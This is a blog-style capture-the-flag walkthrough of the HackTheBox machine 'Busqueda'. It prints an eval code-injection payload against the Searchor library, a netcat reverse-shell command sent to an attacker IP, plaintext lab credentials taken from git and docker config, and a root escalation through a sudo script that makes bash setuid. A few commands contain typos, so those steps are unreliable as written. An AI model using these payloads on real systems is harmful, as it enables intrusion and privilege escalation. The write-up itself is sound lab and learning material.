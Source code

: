 ```yaml
---
layout: post
title: "HTB: Busqueda"
author: Andrew Cherney
date: 2023-08-12 16:14:08
tags: htb easy-box
icon: "assets/icons/busqueda.png"
post_description: "Much like RedPanda this box starts with exploiting a search engine. I hope your python is up to the test. Next we look for remnants of a git repo and gain access to private scripts running on the machine, which are then exploited for root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

<h3>nmap</h3>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nmap -sC 10.10.11.208
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-14 16:34 CDT
Nmap scan report for 10.10.11.208
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://searcher.htb/
```

```bash
echo '10.10.11.208 searcher.htb' >> /etc/hosts
```

<h3>Port 80 - http</h3>

![front page](/img/busqueda/front_page.png)

![/search](/img/busqueda/search.png)

This page appears to be a universal searcher where you specify a platform and it returns a web address which you can enter as an address to perform your search. The endpoint that you are redirected to is **/search**. Now I've already got a small lead from the footer of the front page. This is run in Flask and using the [Searchor github repo](https://github.com/ArjunSharda/Searchor).

<h2>User as svc</h2>

<h3>Python Code Escape</h3>

If I skim that repo I can find that the basic functionality of this site is to use that repo to search various sites and return the url for that search. The cursory search of vulnerabilities for this repo turn up [this arbitrary code execution on version 2.4.2](https://security.snyk.io/package/pip/searchor/2.4.0). The crux is our old friend improper eval usage as seen below:

```python
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Commonly a way to escape python code through the eval function is to import os and use popen to run commands. Let's see what comes from that.

```
'+__import__("os").popen("id").read()+'
https://www.google.com/maps/search/uid%3D1000%28svc%29%20gid%3D1000%28svc%29%20groups%3D1000%28svc%29%0A
```

It works! Now I replace id with a reverse shell and gain my foothold.

```
'+__import__("os").popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 7777 >/tmp/f").read()+'
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.208] 50910
bash: cannot set terminal process group (1641): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
svc@busqueda:~$ cat user.txt
cat user.txt
113ea983d7b15-------------------
```

<h2>Root</h2>

<h3>Git Config</h3>

I run a linpeas and it throws off some interesting information. Firstly the **/home/svc/.local/bin** directory is in the path environment variable. If there is a script or command that runs another command or script from one of the path directories I can intercept that request and run my code as whatever user runs the script/command calling it (ideally root). Other basic things include DirtyPipe, Pwnkit, sudo Baron Samedit 1 and 2, and Netfilter heap out-of-bounds write. 

Before looking into any of those there are two .git directories:

```
drwxr-x--- 8 root root 4096 Apr  3 15:04 /opt/scripts/.git
drwxr-xr-x 8 www-data www-data 4096 May 14 18:08 /var/www/app/.git
```

I have access to the one inside of /var/www/app, so I'll crack open that juicy config file and see what we have. 

```
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Oh sweet wompums look at that password **jh1usoih2bkjaspwe92**. Now I can toss out a **sudo -l** to see what our user "cody" can do as root. 

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

<h3>Gitea</h3>

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 8 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 8 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Two things pop out here, one is that here is a mysql database for a locally running webpage, and the other is that there is some other hosted site that we might be able to enumerate. Luckily inside of /etc/hosts on this machine I found **gitea.searcher.htb**. In retrospect the credentials for cody also mentioned this subdomain. 

![gitea page](/img/busqueda/gitea.png)

![gitea login](/img/busqueda/gitea_login.png)

![cody gitea](/img/busqueda/cody_gitea.png)

It seems we have another user for this specific service named administrator. Those credentials are certainly inside of the mysql database listed with our sudo access. Now all we need to do is figure out how to interact with that database. 

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect gitea
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{.Config.Image}}' gitea
--gitea/gitea:latest
```

I found a basic use case [for the command here](https://docs.docker.com/engine/reference/commandline/inspect/), it pretty closely follows the regular docker inspect command. At the bottom of that page is the payload <code>docker inspect --format='{{json .Config}}' $INSTANCE_ID</code> and I intend to see if that works.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{json .Config}}' gitea
--{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Oh hey it did work. And if you squint hard enough you can make out the administrator password is **yuiu1hoiu4i5ho1uh**. 

![admin gitea](/img/busqueda/admin_gitea.png)

![scripts repo](/img/busqueda/scripts_repo.png)

And would you look at that cool scripts directory with identical scripts to the /opt/scripts directory on the machine. Taking a small peek at one of the scripts that didn't work when I tried is I find my ticket to root. 

<h3>Code Exploitation</h3>

```python
elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
        print(run_command(arg_list))
        print('[+] Done!')
    except:
        print('Something went wrong')
        exit(1)
```

Checking the full-checkup option of the code I can run as sudo I see that the option only checks for a local file then runs it as root. I can make the file modify /bin/bash to be an suid and then I will obtain root. 

```bash
!#/bin/bash
chmod +s /bin.bash
```

```bash
svc@busqueda:~$ nano full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
c0c2d4933301--------------------
```
